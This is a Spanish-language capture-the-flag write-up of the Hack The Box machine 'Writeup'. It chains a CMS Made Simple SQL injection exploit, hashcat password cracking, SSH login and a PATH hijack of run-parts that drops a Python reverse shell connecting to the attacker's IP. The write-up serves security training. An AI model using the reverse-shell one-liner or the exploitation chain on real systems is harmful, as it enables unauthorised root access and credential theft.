





Hack The Box - Writeup

Contenido
Resumen
La maquina Writeup fue retirada y aqui esta la solucion que le di a esta maquina. En esta maquina vimos una vulnerabilidad de SQLi con la que obtuvimos credenciales y psoteriormente las crackeamos para obtener acceso a la maquina por el servicio SSH, asi tambien obtuvimos privilegios root mediante un proceso que pudimos observar con pspy. Acontinuacion la informacion.
| Nombre | Writeup |
|---|---|
| OS | Linux |
| Puntos | 20 |
| Dificultad | Facil |
| IP | 10.10.10.138 |
| Maker | jkr |
MASSCAN & NMAP
Escaneo de puertos TCP/UDP.
root@sckull:~/htb/writeup# masscan -p1-65535,U:1-65535 10.10.10.138 --rate=1000 -e tun0
Starting masscan 1.0.4 (http://bit.ly/14GZzcT) at 2019-06-14 23:30:31 GMT
-- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 80/tcp on 10.10.10.138
Discovered open port 22/tcp on 10.10.10.138
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-14 17:38 CST
Nmap scan report for 10.10.10.138
Host is up (0.24s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
| 2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
| 256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_ 256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open http Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry
|_/writeup/
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.79 seconds
HTTP - Puerto 80
Al visitar el puerto 80 en http nos muestra una pagina con un mensaje en el cual nos indica que la pagina tiene un script anti ddos.

Robots.txt
Intentamos utilizar gobuster, dirb y wfuzz para busqueda de directorios y archivos pero por el script que nos indica en la pagina principal no pudimos realizar dicha busqueda por lo que visitamos el archivo robots.txt de la pagina principal y nos muestra que esta “oculto” /writeup/, al visitar esta pagina nos muestra una serie de writeups de maquinas que ya fueron retiradas de hackthebox.

CMS Made Simple
Utilizamos la extension para firefox Wappalyzer la cual nos ayuda a identificar el tipo de CMS, Web Server, Programming Language y Operating Ssytem de una pagina web. Al utilizar esta extension en la pagina nos muestra lo mencionado anteriormente.

Sabiendo esto buscamos exploits que puedan afectar a este CMS con Searchsploit.

Encontramos varios exploits que afectan a este CMS cada uno de ellos en distintas versiones y tipos de vulnerabilidad, para esta version utilizamos CMS Made Simple < 2.2.10 - SQL Injection (CVE-2019-9053).
CMS Made Simple - SQLI
Utilizamos el exploit contra la pagina y nos muestra las credenciales del usuario jkr el salto de la contraseña y la contraseña.

root@sckull:~/htb/writeup# python CVE-2019-9053.py -u http://10.10.10.138/writeup/
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
Hashcat
Para obtener la contraseña en texto plano utilizamos Hashcat, escribimos el hash y el salto de la contraseña en un archivo para utilizarlo con hashcat y un diccionario.
Contraseña:salto
62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
Comando hashcat:
./hashcat64.bin -m 20 62def4866937f08cc13bab43bb14e6f7:5a599ef579066807 ../rockyou.txt -o huehue.txt
Contraseña crackeada:
62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
SSH - User
Cuando obtuvimos nuestra usuario y contraseña con el exploit la probamos en el panel de administracion del CMS que esta corriendo en el puerto 80 pero no tuvimos suerte de acceder por ese lado, por lo que utilizamos las credenciales en el servicio SSH y nos logeamos satisfactoriamente.

Flag user.txt:

PRIVILEGE ESCALATION
Utilizamos pspy para observar los procesos que se ejecutan, encontramos que un proceso se ejecuta a cada vez que se inicia sesion en el servicio de SSH.

Vemos que este proceso env donde se le pasa la variable $PATH del usuario root, luego de eso ejecuta un comando:
run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
Buscamos en que carpeta se encuentra run-parts:

Revisamos la variable PATH del usuario root y las carpetas donde tenemos permisos de escritura:
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
Carpetas donde tenemos permisos de escritura:
find / -writable -type d 2>/dev/null

Encontramos una carpeta que el usuario root utiliza en su variable PATH (/usr/local/sbin/), esta direccion es la primera que se utiliza para poder “encontrar” los programas/scripts/etc que se escriban en la terminal de comandos, en este caso la primera direccion donde el usuario root va a buscar run-parts es /usr/local/sbin/.
Sabiendo esto, podemos escribir un comando/reverse shell dentro de /usr/local/sbin/run-parts el cual va ser ejecutado por el usuario root. Vamos hacer una prueba con un ping hacia nuestra maquina:
echo "/bin/ping -c 2 10.10.15.122" > /usr/local/sbin/run-parts && chmod +x /usr/local/sbin/run-parts
La respuesta la vemos reflejada con tcpdump:

Ahora que tuvimos una respuesta de la maquina vamos a agregar nuestra shell inversa al archivo y vamos a poner a la escucha netcat localmente:
echo " python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.15.122\",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);' " > /usr/local/sbin/run-parts && chmod +x /usr/local/sbin/run-parts

Obtenemos nuestra shell inversa como usuario root y nuestra flag root.txt: